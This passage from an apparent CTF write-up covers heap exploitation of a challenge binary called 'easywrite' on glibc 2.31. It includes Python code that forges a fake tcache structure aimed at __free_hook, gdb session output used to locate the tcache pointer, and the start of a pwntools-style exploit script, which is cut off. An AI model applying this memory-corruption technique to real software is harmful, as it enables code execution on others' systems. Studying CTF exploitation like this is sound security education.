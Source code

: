 All that's left is...
## Implementation Hell
It was simple enough to create the fake `tcache` in python:
```python
SIZE = 0x40 #size of the second allocation
def tcache_perthread_struct(fake_ptrs: dict):
    '''fake_ptrs has (address: size) key-pairs'''
    def csize2tidx(x): return (x-1)//16 -1
    TCACHE_MAX_BINS = 0x40

    counts = [0 for _ in range(TCACHE_MAX_BINS)]
    entries = [0 for _ in range(TCACHE_MAX_BINS)]
    for addr,size in fake_ptrs.items():
        tidx = csize2tidx(size)
        counts[tidx] += 1
        entries[tidx] = addr
    return b''.join(map(p16,counts)) + b''.join(map(p64,entries))

fake_tcache = tcache_perthread_struct({free_hook: SIZE})
```
The issue arrives with figuring out precisely *where* the tcache pointer is. IDA Pro was not<sup>4</sup> very helpful.

Eventually, I figured out from [online sources](https://github.com/pwndbg/pwndbg/blob/dev/pwndbg/heap/ptmalloc.py#L138-L143) that the tcache (the real tcache in memory; not the pointer to the tcache) is always located at `heap_address+0x10`. From there, I used `gdb` to search for pointers to that space in memory:
```python
gef➤  vmmap heap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555557527000 0x0000555557548000 0x0000000000000000 rw- [heap]
gef➤  grep 0x0000555557527010
[+] Searching '\x10\x70\x52\x57\x55\x55\x00\x00' in memory
[+] In '[heap]'(0x555557527000-0x555557548000), permission=rw-
  0x5555575275b8 - 0x5555575275d8  →   "\x10\x70\x52\x57\x55\x55\x00\x00[...]"
[+] In (0x7facf8661000-0x7facf8667000), permission=rw-
  0x7facf8666530 - 0x7facf8666550  →   "\x10\x70\x52\x57\x55\x55\x00\x00[...]"
gef➤  vmmap libc
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00007facf8473000 0x00007facf8498000 0x0000000000000000 r-- /home/a/libc-database/libs/libc6_2.31-0ubuntu9_amd64/libc.so.6
```
There's only one pointer (`0x7facf8666530`) from the libc region, so we'll take that to be the tcache pointer.

All that's left to do is to grab a one_gadget and run with it:
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

context.log_level = 'debug'
r = context.binary.process()
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

def tcache_perthread_struct(fake_ptrs: dict):
    '''fake_ptrs has (address: size) key-pairs'''
    def csize2tidx(x): return (x-1)//16 -1
    TCACHE_MAX_BINS = 0x40

    counts = [0 for _ in range(TCACHE_MAX_BINS)]
```